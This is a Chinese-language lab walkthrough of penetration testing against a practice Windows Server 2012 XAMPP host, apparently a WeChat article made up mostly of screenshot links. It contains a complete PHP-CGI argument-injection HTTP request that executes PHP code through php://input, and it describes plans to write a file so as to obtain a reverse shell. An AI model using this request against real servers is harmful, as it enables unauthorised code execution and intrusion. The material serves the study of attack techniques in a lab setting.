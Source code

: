 ![1747053772_6821eccc9d541e944ea61.png!small?1747053772632](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrDRttibW9XfWUd7Nia3q8oOXx7NEwZXtYniaREzZhbhl7Rb4xU0ibgJGicrHanGzkGAeFK41uhJPevbjg/640?wx_fmt=jpeg&from=appmsg "")  
  
**Windows Server 2016-AD-2016**  
  
![1747053790_6821ecde222d78479e1f4.png!small?1747053789967](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrDRttibW9XfWUd7Nia3q8oOXFUZhdWicH1gTZaZia17j5u5ians0FoRpibJqWfhF4uNs9Zv5GSCA24546Q/640?wx_fmt=jpeg&from=appmsg "")  
## 打靶  
### windows server 2012  
### 信息收集  
  
![1747053809_6821ecf16c257bbc3c9a9.png!small?1747053809254](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrDRttibW9XfWUd7Nia3q8oOXpt5X7FaiconuwsDeEbiaKQzUukBZE6LqBuKG6mdjRSyJQl37a9UtkCCg/640?wx_fmt=jpeg&from=appmsg "")  
### XAMPP 渗透拿shell  
  
打开网站80端口  
  
![1747053833_6821ed09c2d9b2f19ad6f.png!small?1747053833764](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrDRttibW9XfWUd7Nia3q8oOXAdgsMS7COnXhMJxsah6mibAic3ZVpOwL1IwZwsCaq1hwd9PJ9mfFo4pw/640?wx_fmt=jpeg&from=appmsg "")  
![1747053843_6821ed133ade163743e16.png!small?1747053843715](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrDRttibW9XfWUd7Nia3q8oOXsZTIqRVu39Y3DoG4l9c9qPvg97QzGK2IUicyqKkbGicxTwia5e8WfK7iag/640?wx_fmt=jpeg&from=appmsg "")  
  
[https://mp.weixin.qq.com/s/93TuxZ4AVqHXcnJw3M4hRg](https://mp.weixin.qq.com/s?__biz=MzkwMzMwODg2Mw==&mid=2247507195&idx=1&sn=74e9d776778045fb21fbb2d39b18c6d8&scene=21#wechat_redirect)  
  
```
```  
  
```
ounter(lineounter(lineounter(lineounter(lineounter(lineounter(lineounter(lineounter(lineounter(lineounter(lineounter(lineounter(lineounter(line
POST /php-cgi/php-cgi.exe?%add+cgi.force_redirect%3dXCANWIN+%add+allow_url_include%3don+%add+auto_prepend_file%3dphp%3a//input HTTP/1.1
Host: 192.168.139.128
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,/;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Type: application/x-www-form-urlencoded
Content-Length: 23
<?php die("Te"."sT");?>

```  
  
  
发现可以成功执行命令，但是想要反弹shell没有办法只用get,所以我们得尝试写入文件  
  
查看phpinfo，发现当我们写入文件应该会放在\php\下  
  
![1747053873_6821ed3119dc55c849896.png!small?1747053873212](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrDRttibW9XfWUd7Nia3q8oOXQY42rymwic7QHqShH9aeNTZfZjGzhEiazoBIM8tXBRspLfhqsrjPyMCg/640?wx_fmt=jpeg&from=appmsg "")  
  
而经过chatgpt的搜索，可以知道网站的路径在/htdocs/下，所有我们得把文件上传到这  
  